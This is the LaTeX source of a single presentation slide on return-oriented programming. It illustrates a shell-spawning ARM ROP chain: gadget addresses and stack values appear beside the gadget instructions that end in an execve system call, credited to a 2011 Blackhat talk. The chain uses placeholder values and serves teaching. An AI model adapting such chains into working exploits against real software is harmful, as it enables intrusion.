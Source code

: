 \documentclass[9pt]{beamer}
\begin{document}
\begin{frame}{\theframenumber. Example of a Compiled Shell-Popping ROP-chain\\ (by ROPeMe, not ROPER)}
  
  \begin{columns}
    \begin{column}{.5\textwidth}
      Payload:
      
      00002d38~deadbeef \\
      0000bb3d~00000000~4b4e554b \\
      000256f9~00000000~4b4e554b~4b4e554c \\
      0000bb3d~00000000~0000000b \\
      00001804~4b4e554a~0000000b \\
      
    \end{column}
    \begin{column}{.5\textwidth}

Runtime:

00002d38 pop \{r0, pc\}\\
0000bb3d pop \{r1, r7, pc\}\\
000256f9 pop \{r2, r3, r6, pc\}\\
0000bb3d pop \{r1, r7, pc\}\\
00001804 svc 0x0\\
00001808 pop \{r4, r8\}\\
0000180C bx lr  \\
    \end{column}
  \end{columns}
  \vspace{12pt}
  Source: Long Le, ARM Exploitation ROPMAP, Blackhat 2011
  
\end{frame}
\end{document}
